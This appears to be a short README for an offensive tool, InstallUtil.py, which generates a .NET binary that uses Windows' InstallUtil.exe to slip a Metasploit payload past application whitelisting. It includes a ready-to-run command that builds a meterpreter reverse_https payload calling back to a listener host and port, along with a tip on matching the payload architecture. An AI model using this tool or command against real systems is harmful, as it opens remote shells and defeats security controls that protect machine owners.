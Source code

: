 # WhiteListEvasion

1. InstallUtil.py

   Usage:
   python InstallUtil.py [--cs_file cs_filename] [--exe_name exe_filename] [--payload payload] [--lhost lhost] [--lport lport]

   python InstallUtil.py --cs_file temp.cs --exe_name temp.exe --payload windows/meterpreter/reverse_https --lhost 192.168.1.11 --lport 443

   Script that generates a .NET binary that attempts to leverage the InstallUtil.exe whitelist evasion technique.  this is accomplished by importing a msfvenom generated payload into the c_sharp template found here: http://www.room362.com/blog/2014/01/16/application-whitelist-bypass-using-ieexec-dot-exe/  . This template is then incorporated into the InstallUtil PoC found here: https://github.com/subTee/ShmooCon-2015/blob/master/CaseySmith-SimpleWindowsApplicationWhitelistingEvasion .  One thing of note:  The payload architecture must match the Framework subdir in the .NET path or the binary wil crash.
